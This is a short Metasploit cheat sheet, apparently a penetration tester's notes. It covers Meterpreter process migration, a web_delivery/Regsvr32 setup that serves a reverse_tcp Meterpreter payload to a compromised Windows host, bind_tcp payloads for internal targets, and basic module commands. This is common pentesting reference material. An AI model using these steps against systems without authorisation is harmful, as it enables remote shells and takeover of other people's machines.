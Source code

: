 # Metasploit
### Process Migrate
#### Meterpreter
* `migrate -N <process/PID>`<br>
_Needed when running as **NT AUTHORITY\SYSTEM** but get Access Denied_

### Shell Upgrade
#### Metasploit **web_delivery** module
1. Select module
   * `use exploit/multi/script/web_delivery`
2. set `lhost`
3. set target
   * `show targets`
   * `set target Regsvr32` - creates a payload to run on windows
4. set payload
   * `set payload windows/meterpreter/reverse_tcp`
5. Run command on already infected host to gain **Meterpreter** shell

### Exploiting targets in the internal network
* `set PAYLOAD windows/meterpreter/bind_tcp` - `reverse_tcp` shells won't work because internal target is not accessible from attacker machine

### General Commands
* `search <exploit-key-word>` - search exploits based on keywords
* `info` - extra details about the module selected
* `show targets` - show available targets
* `show payloads` - show available payloads

## Cool resources
https://book.hacktricks.xyz/shells/shells/windows#regsvr32
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

